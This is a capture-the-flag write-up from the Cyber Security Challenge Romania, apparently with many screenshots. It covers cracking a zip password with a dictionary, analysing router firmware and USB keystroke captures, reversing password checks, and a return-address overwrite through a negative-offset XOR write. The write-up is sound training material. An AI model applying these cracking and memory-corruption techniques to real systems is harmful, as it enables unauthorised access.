# Cyber Security Challenge Romania
---------
## Task Write-ups

### _by RED_

### What is this?
These are my solutions to the tasks that I managed to solve during the [Cyber Security Challenge Romania](http://www.cybersecuritychallenge.ro/)

### Contents
1. [Forensics](#forensics)
   * [Johnny's Coloring Book](#johnnys-coloring-book)
   * [Johnny's Router](#johnnys-router)
   * [Johnny's Hotseat](#johnnys-hotseat)
2. Reverse Engineering
   * Re100
   * Re200
   * Re500
3. Exploitation
   * Lucky 4
4. Web
   * Web1

## Forensics
#### Johnny's Coloring Book

This task provided us with a .zip file. When trying to unzip I quickly
found out it is protected by a password.



I managed to find the password using a dictionary attack.



Let's see what kind of file `book` is:



Ascii text with very long lines. 

My first though was to make the terminal characters smaller so I could
see the whole lines. Tried different font sizes. At font size 2 bingo!



#### Johnny's router

In this task we are given a .bin file



Firstly I tried to extract its contents with binwalk.



Here is an interesting part. The first time I tried to do this I did not
get the squashfs-root directory. I wanted to mount the “120000.squashfs”
filesystem so I checked online and I found out I needed the
squashfs-tools util. I did not manage to mount the file so I scrapped
everything and started again. Now that I had the squashfs-tools the
squashfs-root directory appeared.



The directory seemed to be a root directory of
some filesystem (presumably the router’s fs). In the task description it
was stated that Johnny tried to make some improvements to his router so
I looked for the last modified files.

The first file in the list is a picture which I opened and found nothing
interesting. The second file is a script that prints the flag. I just
ran the script and obtained the flag.

#### Johnny's Hotseat

In this task we were given a .pcap file. First though in my head was
wireshark.



It seemed to be a USB traffic capture. After looking a little bit into
it I found out that every device introduces itself to the host.



So at this point I started looking for the keyboard. When I found it I
sorted the list of packets by source so I can see the keyboard packets
more clearly.



After some research I found out that the keys pressed
should be in the Leftover Capture Data section of the packets



Now I needed the codes that represent each key on the keyboard. I found
them after a few google searches [here](http://www.win.tue.nl/~aeb/linux/kbd/scancodes-14.html). In the first
packet I could see a 0x09 in the Leftover Capture Data which
corresponded to `f`. Interestingly for every packet with data in it
there was also a packet without any data. I presumed that a packet is
sent when the key is released also.

After the first 8 packets the word `"flag"` was formed and I expected to
see the `{` character next. This is what the next 3 packets contained.







The 0x2f code meant the `[` or with Shift pressed the `{` that I was
expecting. So I presumed that the 0x20 in the beginning of the Leftover
Data must be the Shift key, even if the 0x20 was the code for `3`

Using this technique I managed to retrieve the flag. At some point the
user pressed 2 keys and at some point he pressed the Backspace key
deleting the previous character as far as I can remember. The flag was:
flag{Usb\_is\_easy\_peasy} with some numbers instead of letters (I was
really bored and did not want to solve the task again :D pls don't judge
me)

## Reverse Engineering

#### Re100

We were given a binary file that was asking for some kind of password.



Upon opening it with IDA I noticed that it does
an md5 hash on the password I provided and then does a memcmp with a
memory chunk.

So the first thing I did was inspect that chunk of memory.



And that should be our hashed password. Now all we need to do is use
crackstation to crack it.



Ok, now that we have found the password we can feed it to the binary.



#### Re200

This task was a bit harder. While examining the file with IDA I found
that it had no print instructions yet upon execution it printed some
stuff. The instructions were fairly complicated with many jumps and I
found them hard to follow. So I started looking for that print/write
instruction or sys call. I found out that the file was mostly made out
of byte declarations. At some point I tried to follow it line by line
and I found it jumped to an address that IDA wasn't showing me as code.
I figured in those declarations there must be instructions but more
importantly strings (and among them the flag).



So I run `strings` on the file. I found a lot of interesting stuff but at
some point I hit the jackpot.



That had to be the flag but it was not complete. I tried guessing it but
it did not work so well. So I took another approach. First I run `xxd
easy | grep pr3` to find the address at which the flag resides in the
memory.



Then I set a read watch in GDB to stop the program when that part of the
memory is read.



And then run. The second time I did this I encountered a problem. For
some reason the string was not at that address but instead at 0x0036bb0
(found out using gdb `find`). Anyways I used the same principles both
times. After setting the correct watchpoint and running, the program
broke when that memory was read. I started running instruction by
instruction to see what is happening. Eventually the flag was put in
plain text after a few instructions.



#### Re500

First of all this task provided a Windows executable file (.exe) so for
that I switched to my Windows machine. Similar to Re200 this one asked
for the flag directly too.



After some research I found where the checking occurs.



Basically what happens here is that a memory zone is checked and if all
the 0x20 (32) bytes are 0x0 then it will display a message saying that
the flag is correct. So I ran the program with the argument
flag{A\*26 times} because I knew the key had to be 32 bytes long and I
checked that memory address to see what I can find there.



So my argument was put there. I did a lot of research at this point,
trying to figure out what is happening to that memory chunk. I realized
that the memory chunk was 'transformed' using a series of subroutines
which I tried to understand. It took me a lot of time and it proved
worthless because later I found something more interesting. My key was
transformed like this :

((key[i] xor Y) + Z) xor P) = 0 -\> if the character at that position
was correct

((key[i] xor Y) + Z) xor P) /= 0 -\> if the character at that position
was incorrect

So I set some breakpoints and I took some paper. I noted down the values
of Y Z and P for every character in the key and then I made the inverse
calculations to determine the key.





Here is how the paper looked like(I also noted S but it is useless):



## Exploitation

#### Lucky\_4

This task provided us with a binary and the source code for it. I
checked the source code first. After some research I found out this.



The program asks for an offset first and then it does XOR the offset I
provided of the passwd buffer with the byte I provide later. This means
arbitrary memory write. Well it is limited to passwd.len and 0xFFFF but
it still accepts negative offsets



Indeed it accepts negative offset. Let's see
what can we overwrite.

This is the start of the play function. As we can see on the top of the
stack is the return address which we can overwrite by giving negative
offset to the buffer. Below the return address we can find the starting
address of the buffer. 37b - 35c = 1f (29) this should be the negative
offset we want to give to overwrite the first byte of the return
address. Let's test it.





So by testing I found out -28 is the first byte of the return address.
All I had to do now is find the address of the win() function and XOR it
with the return address so I can get my payload.





Turns out I only have to modify the last 2 bytes.

